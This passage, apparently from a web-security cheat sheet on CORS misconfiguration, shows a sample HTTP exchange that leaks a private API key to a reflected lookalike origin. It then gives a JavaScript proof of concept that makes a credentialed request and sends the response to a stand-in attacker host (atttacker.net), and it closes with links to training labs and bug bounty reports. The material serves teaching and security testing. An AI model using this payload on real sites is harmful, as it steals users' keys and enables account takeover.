 ```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://apiiexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://apiiexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}

```

#### Proof of concept (Example 2)

This PoC requires the respective JS script to be hosted at `apiiexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

## Labs

* [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
* [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
* [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)
* [CORS vulnerability with internal network pivot attack](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack)

## Bug Bounty reports

* [CORS Misconfiguration on www.zomato.com - James Kettle (albinowax)](https://hackerone.com/reports/168574)
* [CORS misconfig | Account Takeover - niche.co - Rohan (nahoragg)](https://hackerone.com/reports/426147)
* [Cross-origin resource sharing misconfig | steal user information - bughunterboy (bughunterboy)](https://hackerone.com/reports/235200)
* [CORS Misconfiguration leading to Private Information Disclosure - sandh0t (sandh0t)](https://hackerone.com/reports/430249)
* [[██████] Cross-origin resource sharing misconfiguration (CORS) - Vadim (jarvis7)](https://hackerone.com/reports/470298)
